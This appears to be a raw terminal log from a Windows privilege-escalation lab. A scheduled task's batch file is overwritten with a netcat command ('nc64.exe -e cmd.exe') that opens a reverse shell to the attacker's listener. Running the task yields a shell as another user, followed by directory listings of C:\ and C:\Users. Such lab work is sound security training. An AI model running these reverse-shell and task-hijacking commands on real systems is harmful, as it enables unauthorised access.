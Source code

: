 ```
'C:\' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe 10.11.81.220 4444 > C:\tasks\schtask.bat

kali linux 
nc -lvnp 4444

C:\Users\thm-unpriv>schtasks /run /tn vulntask
SUCCESS: Attempted to run the scheduled task "vulntask".

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444          
listening on [any] 4444 ...
connect to [10.11.81.220] from (UNKNOWN) [10.10.90.7] 49740
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\taskusr1

C:\Windows\system32>cd ..
cd ..

C:\Windows>cd ..
cd ..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\

11/14/2018  06:56 AM    <DIR>          EFI
05/03/2022  07:51 PM    <DIR>          inetpub
05/03/2022  07:32 PM    <DIR>          MyPrograms
05/13/2020  05:58 PM    <DIR>          PerfLogs
05/03/2022  07:51 PM    <DIR>          Program Files
05/03/2022  07:51 PM    <DIR>          Program Files (x86)
05/03/2022  11:41 AM    <DIR>          tasks
05/04/2022  08:05 AM    <DIR>          tools
05/03/2022  08:20 PM    <DIR>          Users
05/03/2022  07:51 PM    <DIR>          Windows
               0 File(s)              0 bytes
              10 Dir(s)  14,822,309,888 bytes free

C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users

05/03/2022  08:20 PM    <DIR>          .
05/03/2022  08:20 PM    <DIR>          ..
05/03/2022  08:20 PM    <DIR>          .NET v4.5
05/03/2022  08:19 PM    <DIR>          .NET v4.5 Classic
05/03/2022  07:44 PM    <DIR>          Administrator
```